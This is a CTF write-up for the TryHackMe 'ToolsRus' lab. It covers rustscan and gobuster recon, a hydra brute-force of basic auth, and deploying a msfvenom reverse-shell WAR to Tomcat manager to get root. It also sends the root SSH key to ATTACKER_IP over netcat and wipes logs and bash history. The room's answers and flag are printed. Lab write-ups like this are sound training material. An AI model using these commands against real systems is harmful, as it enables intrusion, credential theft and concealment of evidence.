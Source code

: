 ```yaml
---
layout: post
title: ToolsRus Writeup
categories:
- CTF Writeup
tags:
- writeup
- ctf
- cybersecurity
- tryhackme
date: 2023-07-12 04:23 +0530
---
```

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance
Time for some quick port scans and recon (god bless the creators of `rustscan`):
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt 
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1234/tcp open  hotline syn-ack
8009/tcp open  ajp13   syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80,1234,8009 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Some directory enumeration:
```shell-session
$ gobuster dir -t 64 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt 
$ cat gobuster_common.txt       
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/guidelines           (Status: 301) [Size: 319] [--> http://TARGET_IP/guidelines/]
/index.html           (Status: 200) [Size: 168]
/protected            (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 301]
```

 > What directory can you find, that begins with a "g"?
 > 
 > Answer: `guidelines`
 
Visiting the `/guidelines/` directory, we only see a text saying: `Hey bob, did you update that TomCat server?`. 

> Whose name can you find from this directory?
> 
> Answer: `bob`


Moreover, requesting the `protected` directory gives us an authentication popup...
> What directory has basic authentication?
> 
> Answer: `protected`

Let's try to brute force it using hydra :)
```shell-session
$ hydra -l bob -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -s 80 -f TARGET_IP http-get /protected
...
...
[80][http-get] host: TARGET_IP   login: bob   password: bubbles
```

> What is bob's password to the protected part of the website?
> 
> Answer: `bubbles`

When we log into the `protected` page, we're greeted with the following page:
![](/assets/img/writeup_assets/toolsrus/protected_page_moved.png)

As we found out from the port scans earlier, there's a _Apache Tomcat server_ running on port **1234**. Let's try and log into the portal there by requesting: `http://TARGET_IP:1234/manager/`. This presents us with a familiar authentication service. If we use the credentials: `bob:bubbles`, we get access to the server panel!

> What other port that serves a webs service is open on the machine?
> 
> Answer: `1234`



The version number for the tomcat server can be found at the bottom of the `manager` page...
> Going to the service running on that port, what is the name and version of the software?
> (Answer format: Full_name_of_service/Version)
> 
> Answer: `Apache Tomcat/7.0.88`

There's a total of 5 documentation files mentioned on the tomcat manager page, so no need to use `nikto` yet (also, it's a bit confusing to use ngl):
> How many documentation files did ~~Nikto~~ you identify?
> 
> Answer: `5`


> What is the server version (run the scan against port 80)?
> 
> Answer: `Apache/2.4.18`


> What version of Apache-Coyote is this service using?
> 
> Answer: `1.1`


Armed with all this info on version numbers and stuff, let's see what exploits we can make use of to get access to the target machine:

## Gaining Access
Now... If we do as the room instructs, this section will usually be _2_ parts, but since we can deploy a file on the `manager` page, we can easily get a reverse shell, (which, moving further, you'll see is a root shell!). Let's begin with generating a suitable payload:
```shell-session
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f war > reverse.war
```

We're generating a `WAR` file as a payload since that's what we can upload from the `manager` page: 
![](/assets/img/writeup_assets/toolsrus/war_file_upload.png)

After the file is deployed, start a listener on the specified port on your machine (4444 in this case), like so:
```shell-session
$ nc -nvlp 4444
```

Now, when we request the URL: `http://TARGET_IP:1234/reverse/`, we'll receive a connection on our netcat listener, and we can move onto stabilizing the shell:
```shell-session
$ nc -nvlp 4444          
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44662

python -c "import pty; pty.spawn('/bin/bash')"
root@ip-TARGET_IP:/# ^Z
zsh: suspended  nc -nvlp 4444

$ stty raw -echo && fg
[1]  + continued  nc -nvlp 4444

export TERM=xterm-256-color
root@ip-TARGET_IP:/# whoami
root

root@ip-TARGET_IP:/# ls /root
flag.txt  snap

root@ip-TARGET_IP:/# cat /root/flag.txt 
`ff1fc4a81affcc7688cf89ae7dc6e0e1`
```

***!!BONUS STEP!!***

Now, even if we have a rooted reverse shell, it's still a hassle to go through uploading the reverse shell and stabilizing it again and again if we plan to exploit this machine later on, so let's get the ssh private key for persistence, as well as clean up the `/reverse.war` file we uploaded:
```shell-session

## On our machine:
$ nc -nvlp 8888 > toysrus_id_rsa

## On target machine;
root@ip-TARGET_IP:/# ssh-keygen
## Empty passphrases...
root@ip-TARGET_IP:/# nc ATTACKER_IP 8888 -w 3 < /root/.ssh/id_rsa
```

Nice! Now we have a persistent access by `ssh`, let's clean up some stuff before we're done...
```shell-session
root@ip-TARGET_IP:/# echo "" > /root/.bash_history 
root@ip-TARGET_IP:/# rm /usr/local/tomcat7/webapps/reverse.war 
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/webapps/reverse/
root@ip-TARGET_IP:/# rm -rf /usr/local/tomcat7/work/Catalina/localhost/reverse
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/access.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/error.log 
root@ip-TARGET_IP:/# echo "" > /var/log/apache2/other_vhosts_access.log 

## Just for good measure...
root@ip-TARGET_IP:/# echo "" > /root/.bash_history
```

And we're done!

> What text is in the file `/root/flag.txt`?
> 
> Answer:  `ff1fc4a81affcc7688cf89ae7dc6e0e1`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Room: [ToolsRus](https://tryhackme.com/room/toolsrus)
